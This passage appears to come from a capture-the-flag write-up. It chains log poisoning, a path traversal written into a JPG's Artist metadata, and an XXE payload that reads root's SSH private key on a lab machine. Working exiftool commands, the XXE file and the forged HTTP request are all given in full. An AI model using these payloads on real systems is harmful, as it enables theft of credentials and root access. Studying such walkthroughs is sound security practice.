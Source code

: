 This application is reading `/opt/panda_search/redpanda.log` and is parsing the log file. Once the log file is parsed (with `parseLog(line)` function) it gets the `Artist` attribute ( with `getArtist(uri)`) from the `.jpg` metadata located at `uri`. and then is using the `artist` attribute to reconstruct the path of the `.xml` file and it is parsing and changing values (number of views) of the `.xml` file using the `addViewTo(uri)` function.
Now, since there is no input validation on `artist` value and `uri`, we can create a poisoned `.jpg` file containing a path traversal pointing to a malicious `.xml` file poisoned with XXE. Once we have created these files, we can poison the log file with another path traversal, that calls the `.jpg`, the `.jpg` again will have a path traversal pointing to the malicious `.xml`, and the `.xml` itself will contain an XXE that will allow us to read root files, and it will be parsed by the `addViewTo(xmlPath)` function.  
Lo let's start by crafting the `.jpg` file:  
```shell
[root@kali img ]$ exiftool -Artist="../../../home/woodenk/b0d" root.jpg
    1 image files updated
```
Now we can upload the file to `woodenk`'s home directory, and in the same directory, craft a `b0d_creds.xml` file:  
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>damian</author>
  <image>
    <uri>../../../../../../home/woodenk/root.jpg</uri>
    <hello>&ent;/hello>
    <views>2</views>
  </image>
  <totalviews>4</totalviews>
</credits>
```
the `&ent;` value should be then be replaced with root's ssh key.  
Now we can poison the log by sending the below user agent in an HTTP request:  
```http
POST /search HTTP/1.1
Host: 10.10.11.170:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0||/../../../../../../../../home/woodenk/root.jpg
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
Origin: http://10.10.11.170:8080
Connection: close
Referer: http://10.10.11.170:8080/stats?author=woodenk
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

name=
```
now the main function will parse the log and the `uri` variable will be filled with `/../../../../../../../../home/woodenk/root.jpg`.  
This path will be passed to `getArtist(uri)` which will return `../../../home/woodenk/b0d` and this value will be assigned to `artist` value.  
Now, the xmlPath will be bult using `string xmlPath = (new StringBuilder()).append("/credits/").append(artist).append("_creds.xml").toString();` which in our case will result in something like: `/credits/../../../home/woodenk/b0d_creds.xml` and this path will be passed to `addViewTo(xmlPath)` .
This function will parse the `b0d_creds.xml` that will allow us to include external entity into the file, and since this process is running as root we will be able to read root's ssh key:  
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace>
<credits>
  <author>damian</author>
```